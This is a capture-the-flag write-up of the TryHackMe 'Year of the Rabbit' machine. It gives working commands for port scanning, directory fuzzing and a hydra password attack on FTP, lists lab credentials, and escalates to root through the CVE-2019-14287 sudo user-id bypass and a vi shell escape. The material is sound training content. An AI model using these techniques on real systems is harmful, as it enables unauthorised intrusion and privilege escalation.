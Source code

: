 ```yaml
---
date: 2020-05-22 06:14:32
layout: post
title: "YearoftheRabbit"
subtitle: A machine full of rabbit holes.
description: Medium Machine from Tryhackme
image: /writeup/assets/img/yearoftherabbit/year.png
optimized_image:
category: tryhackme
tags: medium tryhackme
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/yearoftherabbit">Link</a> to the machine on Tryhackme.

 Staring with nmap scan to look for open ports,
 ```bash
$ nmap -T4 -p- -A 10.10.45.92
 Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-16 00:38 IST
Nmap scan report for 10.10.45.92
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.13 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   187.89 ms 10.8.0.1
2   212.33 ms 10.10.45.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.06 seconds
```

There are 3 ports open 21,22,80.
Since ftp port was open tried to login anonymously,but as shown by nmap scan anonymous login was not allowed.

Moving on to the second interseting port , i.e 80.

The homepage of website hosted at port 80 contains default apache2 page.
Tried to search for directories and pages available on the website using ffuf.
```bash
ffuf -w wordlist -u http://10.10.45.92/FUZZ -e .php,.html,.txt,.zip
```
![placeholder](/writeup/assets/img/yearoftherabbit/ffuf.png "ffuf")

This shows that there is a assets directory.
Visiting the directory, I found a style.css file and a video file.
The style.css file pointed me towards **/sup3r_s3cr3t_fl4g.php**
![placeholder](/writeup/assets/img/yearoftherabbit/style.css "style")

Visited http://10.10.45.92/sup3r_s3cr3t_fl4g.php. A popup told me to switch off the javascript. If I do not switch off js then I was redirected to a youtube video.
After switching off the javascript the video that was inside assets is played on the page.

Listening the video there is voice of man's *burp*.This voice is not present in original video at youtube.

Since the man was burping. So I thought to open Burpsuite and see the requests.

Looking at the requests made by browser when visiting /sup3r_s3cr3t_fl4g.php, I found one more page 
![placeholder](/writeup/assets/img/yearoftherabbit/burp.png "burp")

As visible in image the browser is requesting this address,
*http://10.10.45.92/intermediary.php?hidden_directory=/WExYY2Cv-qU*
Visiting the above URL , I was redirected to /sup3r_s3cr3t_fl4g.php.

I removed the hidden_directory parameter from the URL

*http://10.10.45.92/intermediary.php**

Accessing the above URL, this also redirected me.

As the URL contained the hidden_directory=/WExYY2Cv-qU. So I accessed the directory directly.
```URL
http://10.10.45.92/WExYY2Cv-qU
```
This directory contained an Image.
Downloading the image and using strings command on the image to extract any string in the image.
```bash
strings Hot_Babe.png
```
![placeholder](/writeup/assets/img/yearoftherabbit/ftp.png "ftp")

This gave a ftp username as ***ftpuser*** and some passwords.

Now to get the correct password, I used hydra to perform a wordlist attack.
```bash
hydra -l ftpuser -P passwords 10.10.45.92 ftp -V
```
![placeholder](/writeup/assets/img/yearoftherabbit/hydra.png "hydra")

This gave me the correct passsword for the ftpuser.
***ftpuser:5iez1wGXKfPKQ***

Logged in inside ftp using the above credentials.
```bash
ftp 10.10.45.92
```
Found a file named eli's_creds.txt inside the ftp server.

Downloaded the file and opening it presented me with a obfuscated text.
```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is brainfuck language.
Used <a href="https://www.dcode.fr/brainfuck-language">decode.fr></a> website to execute this code written in Brainfuck language.
![placeholder](/writeup/assets/img/yearoftherabbit/brainfuck.png "brainfuck")
This gave the SSH credentials for user eli.

***eli:DSpDiM1wAEwid***

Logging In through SSH , a message was displayed 
![placeholder](/writeup/assets/img/yearoftherabbit/ssh.png "ssh")

This message said something about s3cr3t hiding place.
I though maybe there is some directory named s3cr3t.So , executed this command to look for the directory named s3cr3t.
```bash
find / -name s3cr3t -type d 2>/dev/null
```
This gave a location where this directory was located, */usr/games/s3cr3t*
![placeholder](/writeup/assets/img/yearoftherabbit/secret.png "s3cr3t")

Inside the s3cr3t directory, there was a file named **.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!**

Inside the file found the password for gwendoline user.
Now I can write that in a proper format,

***gwendoline:MniVCQVhQHUNI***

Used the password to switch user.

Got the user flag.

Now to escalate privileges to root. I started with sudo -l which showed a interseting information.
![placeholder](/writeup/assets/img/yearoftherabbit/sudo.png "sudo")

The sudoers file had an entry for gwendline user which said that gwendoline user can run vi command to read user.txt as every other user except root.

But to escalate privileges I needed to run the vi command as root.

Looking for the version of sudo, I found it to be 1.8.10

Looking for any vulnerability in sudo. I found a vulnerablity related to *!root* statement of sudoers file.(***CVE-2019-14287***)

According to the vulnerability if user id "-1" or "4294967295" is used while executing the command that is listed to be not run as root in sudoers file. Then, it would run as root.

In simple language, if I run the command with user id -1 or 4294967295. Then I can run the vi as root.
```bash
sudo -u \#$((ffffffff)) /usr/bin/vi /home/gwendoline/user.txt
```

ffffffff is hexadecimal of 4294967295
This would also work
```bash
sudo -u#-1/usr/bin/vi /home/gwendoline/user.txt
```

This opened the vi with user.txt as root.

Time for GTFOBins

Used the command displayed on GTFOBins, to get the root shell.

```bash
:set shell=/bin/bash
:shell
```

Now I got the root shell.

Got the root flag.
  

